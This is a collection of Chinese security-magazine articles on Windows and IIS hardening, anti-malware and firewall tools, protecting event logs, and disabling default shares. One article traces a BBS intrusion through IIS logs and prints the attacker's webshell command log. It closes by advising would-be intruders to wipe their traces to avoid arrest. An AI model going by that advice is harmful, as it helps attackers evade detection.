| 包含文件（inc、shtm、shtml） | Everyone (X)；Administrators (Full Control)；System (Full Control) |
| 静态文件（txt、jpg、html） | Everyone (R)；Administrators (Full Control)；System (Full Control) |

## 二、日志文件


`net helpmsg err`，其中 `err` 表示 Win32 状态码。

## 三、IIS 日志的访问权限设置如下

- Administrators (Full Control)
- System (Full Control)
- Everyone (RWC)

`%systemroot%\system32\LogFiles`

## 四、删除不使用的应用程序映射关联

IIS 默认情况下可以解释 .asp、.htr、.shtm 等应用程序文件，当 IIS 接收到这些文件的解释请求后，将交由相应的 DLL 文件处理。如果使用不到其中某类文件，我们建议删除那个类型在 IIS 中的映射关系，如图3。

| 如果不使用下列应用 | 就删除映射项 |
|---|---|
| 监视器命令类扩展 | .htr |
| Internet 数据库连接器（IDC） | .idc |
| 服务器端包含文件（Server-side Includes） | .stm, .shtm, .shtml |
| Internet 打印 | .printer |
| 索引服务（Index Server） | .htw, .ida, .idq |

## 五、确认可执行文件的安全性

在访问网站内容时，IIS 经常要执行一些 DLL 文件。DLL 文件属于可执行文件，可能会读写硬盘文件内容，所以最好确保其安全性。这里介绍一个叫做 DumpBin 程序，它可以判断出可执行文件是否调用了某个 API 函数。

```bash
dumpbin /imports MyISAPI.dll | find "RevertToSelf"
```

命令执行后，如果屏幕上没有任何输出信息，就表明 MyISAPI.dll 没有直接调用 RevertToSelf。

## 六、禁止或删除不需要的 COM 组件

对于大多数应用程序不需要的 COM 组件，我们就应该考虑将其删除，比如说“文件系统对象”（File System Object）组件。请注意，如果删除了“文件系统对象”组件，“目录对象”（Dictionary object）组件也将被删除。但是提醒一点，有些程序可能需要禁止的组件，比如说 Site 服务器 3.0 就使用到“文件系统对象”组件。

```bash
regsvr32 scrrun.dll /u
```

## 七、设置 IP 地址或者 DNS 域名地址的访问限制

如果 Web 站点只对特殊 IP 地址的客户服务，我们建议对 Web 站点执行 IP 地址限制的设置。如果设置是 DNS 域名信息，请注意，这会导致 IIS 执行 DNS 搜索工作，将会耗费一定的时间。

# 查杀与预防全面病毒专家

上网助手之反间谍专家（以下简称“反间谍专家”）是 3721 上网助手发布的一款专门针对木马病毒的查杀程序，提供了智能检测和查杀超过上万种木马、蠕虫、Adware、Spyware，能全面、有效地保护你的电脑及网络安全。首先下载并安装反间谍专家，双击图标打开程序。

## 一、综合设置

为了便于操作，在使用前应对软件进行必要的设定。点击“工具→综合设定”，内有“扫描设定”“查杀设定”和“其它”三项。可勾选扫描压缩文件、仅扫描识别的扩展名等选项，并在“查杀设定”中设置发现恶意程序时的提示方式，最后点击“确定”完成。


## 二、全面查杀

反间谍专家提供了“快速查杀”和“完全查杀”两种方式。选择“快速查杀”项，点击“开始查杀”按钮，程序将快速扫描内存驻留程序、注册表、Cookie、Adware、系统敏感区域，迅速查杀恶意程序。选择“完全查杀”项（图2）可进行更全面扫描。


反间谍专家将对系统薄弱环节和所有本地硬盘进行全面扫描，这里提供了“扫描 Windows 系统目录下的文件”“扫描卷的文件中被保护的文件”“扫描本地硬盘中的所有文件”和“自定义扫描”四项内容，默认为“扫描本地硬盘中的所有文件”，选择后点击“开始查杀”按钮，进入扫描、查杀状态（图3）。


当扫描到恶意代码时，系统会自动弹出“选择动作”对话框（图4），你可以选择“隔离”“清除”或“忽略”。查杀结束后，系统会给出扫描报告和处理结果（图5）。此外，如果你对系统比较熟悉，反间谍专家还为你提供了进程管理、服务管理、网络连接管理等高级工具（图6），辅助你手工查杀木马。


## 三、系统免疫

在进行了全面的查杀之后，你的系统已经相对安全了，接下来是要防患于未然了。反间谍专家提供了超强的“系统免疫”功能，也可以说是这款软件的特色之一。系统免疫功能可以确保操作系统不再受到恶意网站、间谍软件、有害 ActiveX 的侵扰，并且能够快速恢复被恶意代码篡改的 IE 浏览器。点击“常用工具→系统免疫”，进入“系统免疫”界面，这里有三个按钮：“启用”“检查”和“撤销”（图7）。


点击“检查”按钮，检查免疫项是否启用，如果没有启用，可点击“启用”按钮，系统会给出“启用的免疫项成功”的对话框（图8）。


除此之外，你还可以点击“撤销”按钮来随时撤销启用的免疫项（图9）。


同时，反间谍专家还提供了“IE 修复”项，IE 修复能够帮助你恢复被恶意代码篡改的 IE 及 Windows 常用工具；选择可修复项后，点击“立即修复”按钮，完成 IE 修复（图10）。


> 最后提醒大家，反间谍专家具有在线升级木马特征库功能，要记住定期升级，才能够最大限度地保证系统安全。（本文所涉及的上网助手之反间谍专家已收录在本期光盘中。）

# 超酷工具——EasyRecovery

赵俊飞

EasyRecovery 是一款非常好的工具，它可以查找误删除的文件、格式化的文件，还能找到 RAW 文件；除了这些最基本的功能外，它还能恢复 ACCESS、Excel、Word、PowerPoint、Zip 文件……还不止这些呢？它同时支持对传统硬盘磁盘诊断功能，可以测试潜在的硬件故障，监视并报告潜在的磁盘驱动器故障，列出磁盘空间的详细信息，还能创建可引导的诊断工具软盘。实在是一款功能不错的安全工具，下边就让我们来看一看它的具体使用吧！


图2


图5

先来看一下它的界面，怎么样？还算可以吧，如图1。


图1


图3

图3中我们可以详细查看每一个文件夹的大小，还能看到修改的时间。点击右上方标记处可以查看其中内容；在左上方标记处一个是添加删除程序，一个是清空回收站。还有查找文件的功能，可以在文件夹中进行创建、删除、剪切、复制等操作。点击左上角三角按钮，选择“文件”→“磁盘”，可以看到磁盘诊断下的磁盘空间使用详情。


图6

从图5中我们可以看到它的强大功能，在高级选项中选择一个磁盘分区并查看，可以看到磁盘查看器（如图6）。可以以十进制、八进制、字节、字、Dword 等形式显示数据。高级选项还支持对 RAW 分区进行扫描，并可对误删除、格式化后的文件进行恢复，也支持不依赖文件系统结构信息进行恢复。扫描时可选择保存，以便下次继续扫描。还可以创建紧急引导软盘。

原版是英文的，经过汉化后更适合大家使用。需要注意的是，安装汉化包后若界面未变中文，可在“属性”中选择简体中文并确认后重启。从图2可以看到左边是主目录，点击相应文字可查看内容。在“磁盘诊断”下可见测试硬件故障、监视并报告潜在硬件故障、磁盘驱动空间详细、查找 IDE/ATA 条件设置、分析文件系统结构及创建可引导诊断工具软盘等项目。限于篇幅这里只介绍几个较实用功能。我们先看磁盘空间使用详情（如图3）。


图4

我们再来看一看它的强项，如图5。现在让我们来试一下它的恢复功能如何，点击 RawRecovery，对磁盘进行扫描，如图7。


图7

根据你硬盘分区的大小，时间长短不一，扫描完成后选择我们要恢复的文件或是全部的文件，在方框内打上勾，就可以看到下一步选项可以点击了，如图8。


图8

在这里大家又会发现它的新功能了，从图9中我们看到可以选择恢复的目录，只要不是原目录即可，还可以恢复到 FTP 服务器上，这个功能我可还没有在别的恢复工具上看过哦！还可以创建 ZIP 压缩包，同时可以选择生成报告。


下面我们再来看看它的下一功能吧，恢复破损的文件，如图10。


图10

操作很傻瓜化，正适合菜鸟来用，不需要太多的原理知识，我们来恢复一下 WORD 文档吧，只要点击 WORD 修复，浏览文件，选择你损坏的文档，点击下一步，就可以进行修复工作了。很简单地就可以完成任务了。其它几个修复选项的用途是相同的，同时这个软件还能修复邮件。

最后要说的是，它支持在线升级，我们可以更新到最新的版本，只要我们连上网就可以了，如图11。


图11

大家可以看到，我已经升级到了最新的版本，现在打好包，送给大家，希望能给大家的日常使用带来一些帮助。（文中涉及到的工具 EasyRecovery 已经收录于光盘中）

## 直捣后门网站 wininterrogate

邻家少麸

针对目前比较流行的插入代码型 Web 后门和插入进程型的远程控制软件的防范，许多网站管理员也是费尽了心机，收效甚微。不过今天我给大家带了一款小审计软件“wininterrogate”。


它可以分别对系统中所调用的 DLL 列表、进程列表和文件系统等的相关信息进行统计，并可以以 CSV 等形式保存。这样当我们发现系统出现异常时，我们就可以把系统当前与正常时的统计数据进行对比，从而及时发现系统的安全隐患。软件的使用很简单，整体界面如图1所示。wininterrogate 可以对文件系统和进程两种模块进行统计。其中在文件系统方面，它可以分别对系统所调用的 DLL 文件、进程进行统计。

同时它还可以对指定的进程分析其所调用的 DLL 文件等信息。时下后门把自己的进程插入到系统进程中去，是比较时尚的隐藏之道，不过现在我们就可以通过进程所调用的 DLL 对比来进行辨别真伪了。


而对于文件系统，它可以把文件的大小、创建时间、最后访问时间、修改时间、MD5/SHA-1 散列值、磁盘信息等进行统计（如图2）。

# 安全第一

当系统中的文件大小和内容变化后，生成的散列值也就不同。这样对于那些（如 .exe）文件捆绑型的、代码注入型（如 .asp）等后门都可以起到很好的监控作用了。除对本地文件系统进行监控外，它还可以监控映射的网络驱动器，同时统计已识别的保存在系统盘下……建议进行有规则的设置，那样在系统出现异常时好进行对比，从而尽快发现问题所在！

不过大家在使用时也要注意技巧。对于服务器的文件系统而言，固定不变或者一段时间不变的目录可以单独进行统计，而且着重注意文件的修改时间、创建时间、文件大小的变化。而对于经常变化（如上传目录等）的文件，则可以采用按文件类型和文件大小来监控。

同时服务器和个人电脑不同，个人电脑可能装卸软件比较频繁，所以对进程进行监控的效果就可能会不太尽如人意。最后我们可以把自己感兴趣的属性列表按清单提出来后，用系统自带的比较工具 comp.exe 或其它小比较软件来比较并显示不同的地方了。是否能够灵活地使用一些小安全工具，对轻松维护系统来说比较关键，希望你也能喜欢 WinInterrogate。


对于经常在互联网上冲浪的朋友来说，时常都面对着各种各样的病毒、木马和黑客软件的袭击和破坏，难免会中招“下马”，所以为安全起见，请一位本领域过人的网络“保镖”为自己保驾护航实在很有必要。

今天我为大家介绍 Agnitum Outpost Firewall Pro（以下简称 AOF），它具有个头小、本领大的优点，甚至不需配置就可使用。更厉害的是，它还可以通过插件不断扩展和延伸自身功能，简直就是我们菜鸟的理想“对象”。

| 项目 | 内容 |
|---|---|
| 软件名称 | Agnitum Outpost Firewall Pro |
| 软件性质 | 共享软件 |
| 文件大小 | 7.82M |
| 最新版本 | 2.1.303.314 |
| 操作系统 | 9X/NT/2K/XP |
| 语言环境 | 英文 |
| 下载地址 | http://dl4.pchome.net/internet/safe/OutpostPro21303.exe |

# 一、安装简便·配置自动

双击 OutpostProInstall.exe 安装，程序会自动扫描系统的应用程序，然后自动配置有关的规则。此时可以通过单击 Details 按钮查看有关情况，同意则勾选 Apply the auto-configured rules 选项（否则单击 Skip 跳过），安装完成后需要重新启动计算机。

# 二、自动防护·密码保护

在 AOF 的功能菜单 Option→General 标签下，在 Start up 项选择 Normal（随系统一起启动）或 Background（后台启动），使其随系统启动。同时，为了保护个性化设置，可以在 Password 项选择 enable，并设置一个密码，以免他人随意更改设置。

# 三、道高一尺·魔高一丈

有些基于 ICMP 的木马能伪装常规端口束缚，成为黑客入侵后门工具中的佼佼者。这时，我们可打开 Option→System 标签，单击 ICMP 的 Setting 按钮，然后作出防护设置。如果用户对有关内容不是很了解，则建议单击 Default 按钮让软件自行设置（如图 1）。


# 四、拒绝漏洞·偷袭扼杀

一般来说，当网上有其他计算机向本机进行端口扫描时，本机会自动应答相关端口是否开放，从而让不法分子有机可乘。所以有必要堵塞这个漏洞；同样在 Option→System 标签下，对 Firewall 部分选择 Stealth 模式（如图 2），可以让扫描者无法判断本机端口的使用情况，或认为本机根本没有上网。

另外，对于一些影响全部程序和网络系统协议的规则，用户可以进一步配置相关规则来管理，打开 Option→System→Global Application and System Rules→Setting，在弹出的窗口中进行选择和配置即可。


# 五、五级防护·随意控制

- Stop all：关闭所有的网络连接
- Block most：除指定的程序外屏蔽其他网络连接
- Rules Wizard：在向导提示窗口下完成规则建立
- Allow most：除指定程序外允许所有网络连接
- Disable：禁用所有网络连接

默认情况下，当软件启动后会自动把控制级别设为 Rules Wizard 模式；如果要更改控制模式，只要用鼠标右击托盘上的 AOF 图标，然后在弹出的功能菜单 Policy 中选择。

# 六、网上冲浪·自由经纬

首先，在出现的菜单中选择 Modify Rules 或 Create Rules，然后在窗口中单击 New（修改按 Modify），接下来开始进行创建规则工作：

第一步：在 Event（事件）栏中选择连接协议、远程地址或端口、发生时间等控制类型。

第三步：在执行操作（Action）栏中选择允许（Allow it）、拒绝（Deny it）、启动程序等命令动作。

第四步：在规则描述（Description）栏中单击带下划线的字体来进一步确定有关数据。

第五步：为规则命名并确定退出后就大功告成了。

其全部过程与在 OE 中建立邮件规则大同小异，相信大家练习几次就能熟练掌握了。

在网上，计算机被攻击以端口扫描和 DoS 攻击最常见，要斩掉伸向这些系统的黑手，需要借助 AOF 的 Attack Detection 插件来加强防护工作。

第一步：选择 Option→Plug-Ins→Attack Detection 后，单击 Setting 打开设置窗口，用鼠标拖动小横杆设置预警等级（一般情况下选择 Normal 模式就足够了）；

第二步：然后再把 Block the intruder's IP for X minutes（设置 30-60 即可）、Also block intruder's subnet 两个选项都勾选了；

第三步：选择 Block local port if remote attack detected 后，能防止 DoS 攻击；

经过这些设置后，我们就可以在“枪林弹雨”中安然无恙了。

经常在一些论坛中看到网友哭诉自己误入一些黄色、恶意网站，结果出现浏览器主页、注册表被更改，甚至出现各种莫名其妙的故障，而有了 AOF，就能避免这种情况发生。

第一步：依次执行 Option→Plug-Ins→Content Filtering→Settings，然后在 Blocked Words 标签下激活 Enable content blocking 选项，再输入过滤关键词（例如 sex，如图 3），并单击 Add 按钮添加到过滤列表中。

同样，要过滤网址，按照上述介绍把要过滤的 URL 在 Blocked site 标签下进行添加。

以后当软件遇到包含过滤关键字或过滤网址的网站时就会中止浏览。

第二步：依次执行 Option→Plug-Ins→Active Content→Settings，激活 Enable active content blocking 选项，然后点一下 Web Pages 字符，再单击 Add 按钮输入具体的网址，最后在右边的过滤控制中选择控制操作（例如关闭运行 ActiveX 控件、禁止弹出 POPUP 窗口等，如图 4）。


图 3


图 4

该功能除了能应付携有恶意代码的网页外，也是屏蔽网页上不断漂浮移动的广告克星（关闭网页中的 Javascript 功能）。

网上的垃圾广告是继垃圾邮件后又一个网友们公认的害虫！它充斥于网页上，占用着宝贵的带宽，严重影响浏览效果，而 AOF 的 Advertisement Blocking 插件，则是这些垃圾广告的清道夫！

第一步：打开广告过滤器的设置窗口后，可见到全部功能分为 HTML 链接和图片过滤两个部分；

第二步：过滤广告链接：激活 HTML ad string blocking 选项，再单击 Default 按钮，在列表区中看到系统内置过滤链接，用户再进行编辑、增删工作，就可以打造出具有个性化的过滤黑名单。

勾选了 Show AD Trashcan on your desktop 选项后，一个类似于垃圾箱的透明图标就会显示在浏览器的最前面，用户用鼠标把有关广告链接地址直接拖曳到垃圾箱后放开，就会出现提示窗口，选择 The whole string 或 A portion of the string 后确定就 OK 了。

第三步：过滤广告图片：激活 blocking by image-size 选项，然后输入图片的长、宽尺寸并添加到列表区。以后再遇到网页中符合条件的垃圾广告时，相应位置会以 AD 字符替代相关的广告；网页中乱七八糟的垃圾广告从此消失得无影无踪了。除了上述功能外，AOF 还提供了导出（导入）配置文件、系统安全实时网上测试、自动升级下载、详尽的日志记录等服务，有兴趣的朋友可以在实际使用中慢慢感受它的好处吧。

（文章中所涉及的软件 Agnitum Outpost Firewall Pro 本期光盘已收录）


日志对于系统安全的作用是显而易见的，无论是管理员还是黑客都非常重视日志。一个有经验的管理员往往能够通过日志了解到系统当前的安全性能；而一个老练的黑客往往会在入侵成功后迅速清除对自己不利的日志。而在现实中，我们经常看到、听到很多“服务器被入侵，日志被删除”的信息。

或者日志所记录的全都是一些事不关己的“废话”，让追踪黑客的源头、所作所为断了线。很多管理员在头痛之余，不禁会问：“系统日志真的是这么脆弱么？”

未必。现在让我们试着来保护系统日志，让其在详细记录系统的各个细节的同时，又不会轻易让黑客清除，达到捕捉黑客罪证的目的。要实现上述目的，必须分成几步来完成，现在让我们开始！

# 修改日志文件的存放位置

系统安装完成后，日志文件默认存放在 `%systemroot%\system32\config`，一般有“应用程序日志”“安全日志”及“系统日志”等，分别对应的文件是：`appevent.evt`、`secevent.evt`、`sysevent.evt`。如果它装有其他的服务，如 DNS 服务等，还有对应的日志文件。这些日志文件受系统服务的调用而不能轻易删除，但却可以清空里面的数据。只要有足够的权限，可以通过“事件查看器”或专用工具来清空里面的数据，达到清除系统日志的目的。

要实现对系统日志的保护，需要先修改日志文件的存放位置。首先打开注册表并找到 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Eventlog` 子键，其下面有 `application`、`security`、`system` 等几个子键，分别对应“应用程序日志”“安全日志”“系统日志”。这几个子键下面还有很多子键，都是一些对应的信息，我们先来看看 `application` 子键，如图 1。


`File` 项的项值就是“应用程序日志”文件存放的位置，在这里我们修改它的项值为 `c:\winlog\Appevent.evt`，如图 2。


将原来对应的日志文件 `%systemroot%\system32\config\appevent.evt` 复制到日志文件新的存放位置。

> 注意：这一步是必须的，否则系统在重启后会找不到对应的日志文件而拒绝记录日志。

操作过程如图 3。


至此，修改“应用程序日志”日志文件的存放位置已经完成，重新启动机器才能使其生效。重新启动机器后，打开“事件查看器”，看看“应用程序日志”的属性，图 4 是修改前日志的存放位置，图 5 是修改后的存放位置。


如法炮制，将其他的日志文件的存放位置也做相应的修改，存放到同一目录下。

修改 WEB 日志文件的存放位置跟上述的不同，必须选择站点属性下的“WEB 站点”→按“活动日志格式”旁边的“属性”按钮→在“日志文件目录”下面直接输入日志文件新的存放位置，或按“浏览”按钮选择对应的存放目录即可，如图 6。


系统重启后就会将日志所记录的内容存放到新指定的目录下。

# 保护日志源文件

通过上面的操作，我们完成了对日志文件的存放位置的转移。移位后的日志依然还是会被轻易地清除，但在这里对保护我们的日志文件仅仅是提供了一个前提。现在我们开始来对日志文件进行保护，以便实现我们的初衷——保护系统日志。

在这里要成功地保护好移位后的日志文件，系统的磁盘格式必须为 NTFS 格式，否则这一步没有办法完成。NTFS 格式比传统的 FAT16、FAT32 格式从安全性上讲要好得多，而且现在大部分的服务器磁盘格式都是这个格式。如果你的服务器不是这个格式，建议将其转换成这个格式。

在系统为 NTFS 格式中，有一项很重要的文件安全保护功能，即对文件及文件夹设置不同的存取权限，达到保护文件机密的目的。现在我们就是利用系统的存取权限来保护我们的日志。选择新日志文件所在目录，选“属性”“安全”，不选“允许将来自父系的可继承权限传播给该对象”，这时会弹出一个如图 7 的对话框。


按“复制”按钮，再按“添加”，选择 system 组后退出，然后只给 everyone 组只读的权限，给予 system 组除“完全控制”和“修改”之外的所有权限，如图 8、9，确定后退出。


我们再打开“事件查看器”并试着清除日志，这时会询问是否保存原来日志，不管保不保存，接着都会弹出一个拒绝清除的对话框，如图 10。


现在我们改用黑客常用清除日志的工具来清除日志，结果还是清除失败，如图 11。


之所以会清除失败，是因为存放日志文件的目录不允许任何用户修改、删除里面的数据，而删除系统日志实际上是修改、删除里面的数据，所以会因为用户没有足够的权限而提示清除失败。就算对方此时拥有本地的一个 SHELL，也同样会出现清除失败。

通过上述的修改，我们的日志是否就可以高枕无忧了呢？答案是否定的。我们只是修改了该目录的存取权限，只要有足够的权限，依然可以修改所在目录的存取权限来达到清除日志的目的。而当管理员要清除当前日志的时候，只需要将日志文件的存取目录权限修改回来，即可清除。

# 二、备份日志文件

上面我们试着对系统的日志文件进行保护，但还存在着一定的局限性：那就是黑客还可以通过修改目录的存取权限来达到清除日志的目的。那么，有没有一种一劳永逸的方法来保护日志呢？答案是否定的，如果有的话，还要这么多的管理员来干嘛。但我们可以更进一步来防止黑客清除日志，那就是给日志做备份。况且一个好的管理员应该有经常备份日志的好习惯。

备份日志可以通过脚本或工具来备份，备份日志工具在这里推荐微软的 Resource Kit 工具箱中的 dumpel.exe。dumpel 的常用语法：

```text
dumpel -s \\server -f filename -l log

-s \\server：输出远程计算机日志，如果是本地，这个可以省略；
-f filename：输出日志的位置和文件名；
-l log：log 可选的有 system、security、application 等。
```

一个服务器可能还有别的日志，如 DNS 等。如要把目标服务器 server 上的系统日志转存为 backupsystem.log 可以用以下格式：

```text
dumpel -s \\server -l system -f backupsystem.log
```

利用 dumpel 我们可以实现本地或远程备份日志。但每次备份的时候需要手工输入 @#$%^+@#，是不是很痛苦？我们做个 bat 文件吧，每次要备份的时候运行它就行，备份本地日志内容如下：

```text
dumpel -l system -f backupsystem.log
dumpel -l application -f backupapp.log
dumpel -l security -f backupsecurity.log
```

远程备份的内容大致如下：

```text
net use \\ip\ipc$ password /user:username
dumpel -s \\ip -l system -f backupsystem.log
dumpel -s \\ip -l application -f backupapp.log
dumpel -s \\ip -l security -f backupsecurity.log
net use \\ip\ipc$ /delete
```

更好。写脚本的就要各显神通了，下面给出一位高手（Sorry! 我忘了是谁了）写的一段备份 application 日志的代码：

```vb
' backupLOG.vbs
strComputer = "."
Set objWMIService = GetObject("winmgmts:{impersonationLevel=impersonate,(Backup)}\\" _
  & strComputer & "\root\cimv2")
Set colLogFiles = objWMIService.ExecQuery _
  ("Select * from Win32_NTEventLogFile Where LogFileName='Application'")
For Each objLogfile in colLogFiles
  errBackupLog = objLogFile.BackupEventLog("f:\application.evt")
  If errBackupLog <> 0 Then
    Wscript.Echo "The Application event log could not be backed up"
  Else
    Wscript.Echo "Success backup log"
  End If
Next
```

另外，系统默认设定“应用程序日志”等几项日志文件的大小是 512K，如图 5 所示。一般的服务器虽然已经够用，但如果是重要的服务器，为防止黑客在正式攻击之前发动其他攻击假象，造成因系统记录过多的事件致使日志文件超过指定大小之后停止记录，所以建议将日志文件的大小改得更大些，如 50M 等。而且存放 WEB、FTP 等日志文件所在的驱动器要有足够大的空间，以防止由于空间不足而造成停止记录重要事件。好了，关于对系统日志的保护就介绍到这里，相信应用上面所述的方法来保护系统日志，日志的安全性不止是提高一个档次而已。既然有这么好的方法，我们没有理由不共享、不应用它吧？

程序说明：如果备份成功将窗口提示：“success backup log”，否则提示：“The Application event log could not be backed up”。此处备份的日志为 application，备份位置为 `f:\application.evt`，可以自行修改。此处备份的格式为 evt 的原始格式，用记事本打开则为乱码，而用 dumpel 备份下来的日志文件则可以用记事本打开。

## 惟羡 Windows 默认共享五招式

羊晓东

常看 X 档案的黑友们都知道，Windows 2000/XP/2003 版本的操作系统提供了默认共享功能。其实广大忠实读者中有很大一部分是网管朋友（比如笔者就是），所以我们研究漏洞及攻击技术的同时千万不能忽略了自家的大门。今天带给大家的这篇文章，希望能给这一部分读者提一个醒儿。默认共享都有“$”标志，意为隐含的。一是所有硬盘分区根目录（不包括光盘）的共享，包括 C:、D:、E: 等，显示为 C$、D$、E$；二是 IPC 管道共享，显示为 IPC$；三是系统目录共享，显示为 ADMIN$，一般对应 `C:\WINDOWS` 目录。微软的初衷是便于网管进行远程管理，不过好多黑友们可是偷着乐啦（多么怀念 IPC$ 管道共享的经典空连接啊）！访问默认共享非常简单，常用的方法有两个：一是通过“开始”→“运行”，输入 `\\计算机名或 IP 地址\D$` 或 `ADMIN$`（不包括两侧的引号，下同）；二是使用 IE 等浏览器，在地址栏中输入上述格式或 `file://10.80.34.33/d$`（如图 1）。

如果要查看自己机器的默认共享情况，也有两种方法：一是通过“开始”→“运行”，输入“cmd”确定后进入命令窗口，然后输入“Net Share”回车（如图 2）；二是在“我的电脑”上右击选择“管理”，在弹出的“计算机管理”窗口（还可以通过“控制面板”→“管理工具”→“计算机管理”）中展开左侧“共享文件夹”，再单击“共享”后右侧就会出现所有的共享（如图 3）。


图 1


图 2


图 3

# 安全第一

关闭这些默认共享的方法很多，笔者整理了五种，相信总有一款适合您。

## 一、右键临时停止共享法

到“计算机管理”窗口中某个共享项（比如 H$）上右键单击选择“停止共享”，并确认后就会关闭这个共享，它下面的共享小手图标就会消失，重复几次把所有的项目都可以停止共享。但这种方法治标不治本，如果机器重启的话，这些共享又会恢复。此法比较适合于永不关机的服务器，简单而且有效。

## 二、批处理自启动法

打开记事本，输入以下内容：

```bat
net share ipc$ /delete
net share admin$ /delete
net share c$ /delete
net share d$ /delete
net share e$ /delete
```

你有几个硬盘分区就写几行这样的命令，保存为 No1Share.bat，然后把这个批处理文件拖到“程序”→“启动”项目（如图4），这样每次开机就会运行它，也就是通过 net 命令关闭共享。如果哪一天你需要开启某个或某些共享，只要重新编辑这个批处理文件即可（把相应的那个命令行删掉）。


## 三、注册表改键值法

“开始”→“运行”输入“regedit”确定后，打开注册表编辑器，找到“HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\lanmanserver\parameters”项，双击右侧窗口中的“AutoShareServer”项将键值由 1 改为 0（如图5）。


这样就能关闭硬盘各分区的共享。如果没有 AutoShareServer 项，可自己新建一个再改键值。然后还是在这一窗口下再找到“AutoShareWks”项，也把键值由 1 改为 0，关闭 ADMIN$ 共享。最后到“HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa”项处找“restrictanonymous”，将键值改为 1，关闭 IPC$ 共享。本法必须重启机器，但一经改动就永远停止共享。

## 四、停服务法

还是到“计算机管理”窗口中，单击展开左侧的“服务和应用程序”并选中其中的“服务”，此时右侧就列出了所有服务项目（如图6）。


共享服务对应的名称是“Server”（在进程中的名称为 services），找到后双击它，在弹出的“常规”标签把“启动类型”由原来的“自动”更改为“已禁用”。然后单击下面“服务状态”的“停止”按钮，再确认一下就 OK 了（如图7）。


## 五、卸载“文件和打印机共享”法

右击“网上邻居”选择“属性”，在弹出的“网络和拨号连接”窗口中右击“本地连接”选“属性”，从“此连接使用下列选定的组件”中选中“Microsoft 网络的文件和打印机共享”后，单击下面的“卸载”按钮并确认一下（如图8）。


本法最大的缺陷是当你在某个文件夹上右击时，弹出的快捷菜单里“共享”一项消失了，因为对应的功能服务已经被卸载掉了！

# 利用 IIS 日志追查网站入侵者

以前黑站黑了很多，但是就没有想过会不会被追踪到？都没有想过怎么去擦自己的屁股。万万没想到在自己不开黑站的时候，却发现了自己的 BBS 被黑了。根据当初的判断，BBS 程序是我们 BCT 小组成员编写的 Lvbbs，不会存在上传漏洞和 SQL 注入，就算能拿到权限都不可能弄出个 webshell 出来。不是程序的漏洞的话，就一定是服务器的安全问题了。以前整天拿着旁注去黑站，这下可好了，竟然被别人拿去黑自己的网站了。所以就硬着头皮去找网管问个究竟，却没想到网管还说是我自己的问题！

那么好，做一回网管了。如果你是网管你会如何去追查问题的来源？程序问题就去查看“事件查看器”，如果是 IIS 问题当然是查看 IIS 日志了！系统文件夹的 system32 的 logfile 有所有的 IIS 日志，用来记录服务器所有访问记录。因为是虚拟主机的用户，所以每个用户都配置独立的 IIS 日志目录，从里面的日志文件就可以发现入侵者入侵 BBS 的资料了，所以下载了有关时间段的所有日志下来进行分析，发现了很多我自己都不知道的资料！这回就知道入侵者是怎么入侵我的 BBS 了。

## 一、发现日志1

从第一天的日志可以发现入侵者早就已经对我的 BBS 虎视眈眈了。头一天的 IIS 日志就全部都是利用程序扫描后台留下的垃圾数据，如图1。


看上面的日志可以发现，入侵者 61.145.***.*** 利用程序不断在扫描后台的页面，似乎想利用后台登录漏洞从而进入 BBS 的后台管理版面。很可惜这位入侵者好像真的没有什么思路，利用程序作为帮助去寻找后台，没有什么作用的入侵手段。

## 二、发现日志2

查看了第二天的日志，开始的时候还是普通的用户访问日志，没有什么特别，到了中段的时候问题就找到了！找到了一个利用程序查找指定文件的 IIS 动作记录，如图2。


从上面的资料发现入侵者 61.141.***.*** 也是利用程序去扫描指定的上传页面，从而确定入侵目标是否存在这些页面，然后进行上传漏洞的入侵。还有就是扫描利用动网默认数据库，一些比较常用的木马名称，看来这个入侵者还以为我的 BBS 是“马坊”啊！扫描这么多的木马文件，能找着就是奇迹啊。继续往下走终于被我发现了，入侵者 61.141.***.*** 在黑了我网站首页之前的动作记录：首先在 Forum 的文件夹目录建立了一个 Myth.txt 文件，然后在 Forum 的文件夹目录下再生成了一只木马 Akk.asp，如图3。


在日志的记录下，看到了入侵者利用 akk.asp 木马的所有操作记录，详细入侵分析如下：

```text
GET /forum/akk.asp ... 200
利用旁注网站的 webshell 在 Forum 文件夹下生成 akk.asp 后门
GET /forum/akk.asp d=s.asp 200
进入后门
GET /forum/akk.asp d=ls.asp&path=/test&oldpath=&attrib=200
进入 test 文件夹
GET /forum/akk.asp d=e.asp&path=/test/1.asp&attrib=200
利用后门在 test 文件夹修改 1.asp 的文件
GET /forum/akk.asp d=ls.asp 200
GET /forum/akk.asp d=ls.asp&path=/lan&oldpath=&attrib=200
进入 lan 文件夹
GET /forum/akk.asp d=e.asp&path=/lan/index.html&attrib=200
利用编辑命令修改 lan 文件夹内的首页文件
GET /forum/akk.asp d=ls.asp 200
GET /forum/akk.asp d=ls.asp&path=/forum&oldpath=&attrib=200
进入 BBS 文件夹（这下真的进入 BBS 目录了）
POST /forum/akk.asp d=up.asp 200
GET /forum/akk.asp d=ls.asp&path=/forum&oldpath=&attrib=200
GET /forum/myth.txt 200
在 forum 的文件夹内上传 myth.txt 的文件
GET /forum/akk.asp d=ls.asp&path=/forum&oldpath=&attrib=200
GET /forum/akk.asp d=e.asp&path=/forum/myth.txt&op=del&attrib=200
POST /forum/akk.asp d=uo.asp 200
GET /forum/myth.txt 200
```

## 分析日志总结

入侵者是利用工具踩点，首先确定 BBS 可能存在的漏洞页面，经过测试发现不可以入侵，然后转向服务器的入侵，利用旁注专用的程序或者是特定的程序进行网站入侵，拿到了 webshell，再进行文件夹的访问从而入侵了我的 BBS 系统修改了首页……不过好在利用日志记录，确定了入侵 BBS 的入侵者 IP 地址以及使用的木马（xiaolu 编写的），还留下了大量入侵记录。

整个日志追踪过程就完毕了。从这里我们知道了如果入侵的时候，不注意在入侵时所产生的记录，就很容易被网管发现我们入侵手法以及过程，这样对于我们自身就增加了一份危险。故告大家，不想被警察叔叔抓就不要去入侵；想入侵又不想被警察叔叔抓，就记得如何去擦干净你的入侵痕迹。

利用后门修改 Forum 文件夹目录下的 myth.txt 文件，之后又再利用旁注网站的 webshell 进行了 Ubb.asp 的后门建立，利用 akk.asp 的后门修改了首页，又把首页备份。不明白这位入侵者是怎么一回事，整天换 webshell 进行利用，真够让人看不透。


